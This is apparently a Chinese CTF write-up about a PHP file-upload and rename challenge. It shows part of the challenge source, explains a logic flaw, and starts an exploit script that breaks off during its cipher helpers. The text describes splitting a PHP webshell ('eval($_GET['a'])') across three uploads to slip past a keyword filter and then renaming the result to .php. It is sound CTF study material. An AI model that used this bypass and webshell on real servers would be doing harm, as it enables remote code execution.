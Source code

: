 ~~~PHP
                var_dump(base64_encode(serialize(array($filetype, $filename))));
                header("Location:index.php?do=rename&re=$re");
                exit();
            } else {
                echo 'you do something wrong';
            }
        } else {
            $html2 = <<<HTML2
            <form action="index.php?do=rename" method="post">
filetype: <input type="text" name="filetype" /> please input the your file's type
</br>
filename: <input type="text" name="filename" /> please input your file's numeric name,like 12345678
</br>
<input type="submit" />
</form>
HTML2;
            echo $html2;

        }
    }

} else {
    show_source(__FILE__);
}
?>
~~~

没法复现这道题目，少了几个关键的php，虽然能够看出来那个是凯撒加密的函数php，还有一个waf函数，但是代码能力太渣了。菜鸡web狗有的时候就是这样难受，做CTF拿到小部分原码复现不了真个题目。。。
这道题目代码逻辑大概流程。
Get进去的do从那数如果为，upload，则进入upload页面，如果为rename，就进入重命名页面。
在上传页面中，在代码的第22行有一个检测上传file是否存在php和`<script>`常见脚本的if判断，这是一个关键点，如果没有就把上传的文件放入在/uploads/下的一个随机数文件夹里，看到第27行的mt_rand()时，心里一抖，想到了wonderkun师傅关于[随机数漏洞](http://wonderkun.cc/index.html/?cat=1)的文章，可惜这道题目没有关联。
然后是rename页面，代码写的很乱，缕一缕思路，重命名页面的代码逻辑就是。GET进去的re参数先进行凯撒再base64再反序列化最后赋值给re2，如果数组长度为2（即里面只有filetype和filename），就创建一个新的随机数txt，再把数组的第0位值保存为rename值，如果数组没有第0位并且value值为数字型字符，就打开这个value.txt，再把内容保存到新随机数.txt，最后把新随机数.txt重命名为新随机数.rename。
这个代码我都看吐了，当初看了好久好久都没理清楚，还是大佬教我我才搞懂的。。。
这个题目其实就是一个逻辑漏洞，我可以通过re传入的3个文件来绕过对"<?""php""`<script>`"的检测，然后在通过有第0位的re传入来重命名txt为php，这样就成功上传了webshell了。
3个php文件分别为

> 1.php  =>    <  
> 2.php  =>    ?ph  
> 3.php  =>    p eval($_GET['a']);




- **EXP**
~~~python
#-*- coding:utf-8 -*-

import phpserialize
import sys
import base64

def change(c,i):
    num = ord(c)
    if num >= 97 and num <= 122:
        num = 97 + ((num - 97) + i) % 26
    elif num >= 65 and  num <= 90:
        num = 65 + ((num - 65) + i) % 26
    return chr(num)


def kaisa(string,i):
~~~